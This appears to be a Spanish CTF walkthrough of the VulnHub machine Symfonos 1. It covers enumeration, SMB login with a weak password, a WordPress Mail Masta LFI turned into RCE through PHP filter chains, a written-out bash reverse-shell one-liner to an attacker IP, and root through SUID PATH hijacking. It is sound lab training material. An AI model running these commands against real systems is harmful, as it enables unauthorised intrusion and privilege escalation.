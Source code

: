 #ctf-machine #vulnhub #easy-machine #linux [VulnhubLink](https://www.vulnhub.com/entry/symfonos-1,322/)

## Enumeración inicial
Como no conocemos la dirección IPv4 de la máquina víctima, realizamos un primer escaneo ARP con `arp-scan`:
![[Pasted image 20240901155210.png]]

La IP de la máquina vícitima es la "192.168.159.149" ya que el OUI de las máquinas que se importan en VMWare es "00:0c".

Lanzamos una traza ICMP con `ping`:
![[Pasted image 20240901155236.png]]

Como el TTL=64 podemos decir que probablemente estemos ante una máquina Linux ya que las máquinas Linux suelen tener este valor de TTL.

### Nmap
Hacemos un primer escaneo con `nmap` para detectar los puertos TCP abiertos de la máquina vícitima:
![[Pasted image 20240901155353.png]]

Como vemos hay 5 puertos abiertos, el puerto 22,25,80,139,445. Así que hacemos un segundo escaneo con `nmap` para detectar la versión y servicio que corren para estos puertos:
![[Pasted image 20240901155706.png]]![[Pasted image 20240901155725.png]]

Como vemos hay una web por el puerto 80, SSH por el puerto 22, SMTP por el puerto por el puerto 25 y el servicio SMB por el puerto 445.

Hacemos un tercer escaneo con `nmap` para detectar algunos directorios web:
![[Pasted image 20240901160011.png]]
Como vemos hay un directorio `/manual/`.

## Enumeracion SMB
Si utilizamos la herramienta `smbclient` para listar los recursos disponibles vemos lo siguiente:
![[Pasted image 20240901160842.png]]

Por lo que probamos de conectarnos primero a "anonymous". Como vemos hay una archivo "attention.txt":
![[Pasted image 20240901160942.png]]

Por lo que nos lo descargamos con "get":
![[Pasted image 20240901161000.png]]

Una vez descargado miramos su contenido y vemos que es una advertencia para que los usuarios dejen de utilizar contraseñas como las que indica:
![[Pasted image 20240901161046.png]]

Por lo que podemos probar de conectarnos al recurso "helios" como el usuario "helios" con estas contraseñas. Y vemos que con la contraseña "qwerty", tenemos acceso:
![[Pasted image 20240901161150.png]]

Vemos dos archivos por lo que nos los descargamos con "get".
![[Pasted image 20240901161318.png]]

Si visualizamos el archivo "research.txt" no vemos nada interesante pero si mostramos el archivo "todo.txt" vemos:
![[Pasted image 20240901161405.png]]

Imaginamos que se trata de un directorio web por lo que accedemos a la web.

## Enumeración web
Si accedemos a la página principal solo vemos una imagen:
![[Pasted image 20240901161453.png]]

Por lo que intentamos acceder al directorio que nos indica el archivo vemos que hay un blog de Wordpress:
![[Pasted image 20240901161555.png]]

Si lanzamos un `wpscan` para detectar *plugins* vulnerables encontramos:
```bash
wpscan --url http://192.168.159.149/h3l105/ --plugins-detection aggressive  --api-token XXXXXXXXXXXXXXXXXXX
```
![[Pasted image 20240901164313.png]]

Por lo que si accedemos a:
http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php

Y utilizamos el parámetro "pl", tenemos un LFI:
![[Pasted image 20240901164733.png]]

Por lo que podemos intentar apuntar archivos *log* para acontecer un *LogPoisoning* pero no tenemos acceso a ver los *logs*, por lo que podemos utilizar los *wrappers* de PHP y sus *encoders* para generar un código PHP malicioso con esta herramienta:
https://github.com/synacktiv/php_filter_chain_generator

Por lo que la ejecutamos para generar la cadena correspondiente al código PHP malicioso:
![[Pasted image 20240901165341.png]]

Y la introducimos en el parámetro "pl" de la URL, ademas de concatenarle el parámetro "cmd"="whoami":
![[Pasted image 20240901165444.png]]

Y como vemos, tenemos RCE. Por lo que con el parámetro "cmd", ejecutamos siguiente comando para entablarnos una *reverse shell*:
```bash
bash -c "bash -i >& /dev/tcp/192.168.159.131/443 0>&1"
```

Por lo que si nos ponemos en escucha con `nc` por el puerto 443 obtenemos la *reverse shell*:
![[Pasted image 20240901165909.png]]

Por lo que hacemos el tratamiento de la TTY:
![[Pasted image 20240901170156.png]]
![[Pasted image 20240901170248.png]]

## Escalada de privilegios
Si buscamos archivos con permiso SUID en el sistema vemos un archivo SUID no común:
![[Pasted image 20240901172427.png]]

Si listamos las cadenas de caracteres leíbles con `strings` vemos que se hace una llamada al binario `curl` de forma relativa por lo que podemos realizar un *Path Hijacking*. Por lo que añadimos el directorio `/tmp` al PATH:
![[Pasted image 20240901172703.png]]

Una vez añadido, creamos un archivo con nombre "curl" con este contenido y le damos permisos de ejecución:
![[Pasted image 20240901172804.png]]

Por lo que si ahora ejecutamos el binario obtenemos una "bash" como *root*:
![[Pasted image 20240901172850.png]]

Finalmente, visualizamos la *flag* en el directorio `/root`:
![[Pasted image 20240901172922.png]]


___
#abusing-suid #path-hijacking #smb #information-leakage #local-file-inclusion 
___

